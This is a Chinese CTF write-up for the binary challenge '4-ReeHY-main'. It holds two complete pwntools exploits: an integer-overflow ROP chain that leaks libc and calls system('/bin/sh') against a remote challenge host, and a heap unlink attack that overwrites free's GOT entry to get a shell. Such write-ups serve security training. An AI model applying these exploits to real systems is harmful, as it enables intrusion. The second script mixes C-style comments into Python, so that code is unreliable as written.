


# 4-ReeHY-main  
这道题目有两种做法，一个是整数溢出，一个是unlink，这里主要介绍unlink。  
***
## 一、整数溢出  
程序主要分为三块主要内容，分别是创建文本，删除文本，编辑文本。首先分析create部分  
  
可以看到这里有一处明显的整数溢出，利用这一点我们可以构造ROP链泄露libc基址并执行system函数。下面是exp  
```python
from pwn import *

#p = process('./4-ReeHY-main-100')
p = remote("111.198.29.45", 31226)

elf = ELF('./4-ReeHY-main-100')
libc = elf.libc
pop_addr = 0x0000000000400DA3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = 0x0000000000400C8C
start_addr = 0x0000000000400760
gadget_sym = 0x45216

print p.recvuntil('$ ')
p.sendline('1234')
print p.recvuntil('$ ')
p.sendline('1')
print p.recvuntil('Input size\n')
p.sendline('-1')
print p.recvuntil('Input cun\n')
p.sendline('1')
payload = 'a' * 0x88 + '\x00' * 8 + 'a' * 8 + p64(pop_addr) + p64(puts_got) + p64(puts_plt) + p64(start_addr)
print p.recvuntil('Input content\n')
p.sendline(payload)
data = p.recv(numb = 6)
data = data.ljust(8,'\x00')
data = u64(data)
puts_addr = data
print 'puts_addr:' + hex(data)

libc_addr = puts_addr - libc.symbols['puts']
print 'libc_addr:' + hex(libc_addr)
sys_addr = libc_addr + libc.symbols['system']
print 'sys_addr:' + hex(sys_addr)
bin_addr = libc_addr + libc.search('/bin/sh').next()
print 'bin_Addr:' + hex(bin_addr)
gadget_addr = libc_addr + gadget_sym
print 'gadget_addr:' + hex(gadget_addr)

print p.recvuntil('$ ')
p.sendline('1234')
print p.recvuntil('$ ')
p.sendline('1')
print p.recvuntil('Input size\n')
p.sendline('-1')
print p.recvuntil('Input cun\n')
p.sendline('1')
payload = 'a' * 0x88 + '\x00' * 8 + 'a' * 8 + p64(pop_addr) + p64(bin_addr) + p64(sys_addr) + p64(start_addr)
#payload = 'a' * 0x88 + '\x00' * 8 + 'a' * 8 + p64(gadget_addr)
print p.recvuntil('Input content\n')
p.sendline(payload)
p.interactive()
```
***
## 二、unlink  
分析代码可以看到在delete删除文本的时候，在free掉堆块之后并没有清除掉地址数组里的指针   
  
于是我们的整个攻击流程就基本确定下来了，就是先create两个smallbin大小的堆块并释放，使smallbin中有空闲堆块。然后重新申请较大的堆块，伪造堆块并进行unlink攻击。这里我们可以先将一个指针改为可以修改的任意指针，这样我们就可以很方便的多次对任意位置写了。最后我们将free函数先改为puts函数泄露libc基址，然后再将其改为system函数getshell。当然这里面还有很多需要注意的细节，这些会在exp中提到   
```python
from pwn import *

context.log_level = True

p = process('./4-ReeHY-main-100')
#p = remote('111.198.29.45', 55988)
elf = ELF('4-ReeHY-main-100')
libc = elf.libc
#gdb.attach(p, 'b* 0x400aa5')

puts_plt = elf.plt['puts']
free_got = elf.got['free']
puts_got = elf.got['puts']


def create(size, cun, content):
    print p.recvuntil('$')
    p.sendline('1')
    print p.recvuntil('Input size\n')
    p.sendline(str(size))
    print p.recvuntil('Input cun\n')
    p.sendline(str(cun))
    print p.recvuntil('Input content\n')
    p.sendline(content)

def dele(cun):
    print p.recvuntil('$')
    p.sendline('2')
    print p.recvuntil('Chose one to dele\n')
    p.sendline(str(cun))

def edit(cun, content):
    print p.recvuntil('$')
    p.sendline('3')
    print p.recvuntil('Chose one to edit\n')
    p.sendline(str(cun))
    print p.recvuntil('Input the content\n')
    p.sendline(content)

def edit2(cun, content):
    print p.recvuntil('$')
    p.sendline('3')
    print p.recvuntil('Chose one to edit\n')
    p.sendline(str(cun))
    print p.recvuntil('Input the content\n')
    p.send(content)


print p.recvuntil('$')
p.sendline('b0m13')

/*先创建好“/bin/sh”字符串以待后面使用*/
create(0x20, 4, '/bin/sh')
create(0x100, 0, 'chunk0')    #size要大于0x80，否则会将空闲堆块加入到fastbin中
create(0x100, 1, 'chunk1')

/*获得smallbin中的空闲堆块*/
dele(0)
dele(1)

/*构造伪装堆块，将一个指针改为可以修改的任意指针，注意这里只有这个可以，因为还有标志位要考虑进来*/
payload1 = p64(0) + p64(0x100) + p64(0x6020e8) + p64(0x602100 - 0x10) + 'a' * (0x100 - 32) + p64(0x100) + p64(0x110)
create(0x210, 2, payload1)

/*unlink攻击*/
dele(1)

/*覆盖free为puts*/
payload2 = p64(0) + p64(puts_got) + p64(1) + p64(free_got) + p64(1)
edit(2, payload2)

/*注意这里'\n'会覆盖后面的got表项，所以要把'\n'去掉*/
edit2(2, p64(puts_plt))

dele(1)

puts_addr = u64(p.recv(6) + '\x00' * 2)
print 'puts_addr:' + hex(puts_addr)

libc_addr = puts_addr - libc.symbols['puts']
print 'libc_addr:' + hex(libc_addr)

sys_addr = libc_addr + libc.symbols['system']
print 'sys_addr:' + hex(sys_addr)

/*覆盖free为system*/
edit2(2, p64(sys_addr))

/*getshell*/
dele(4)
p.interactive()
```
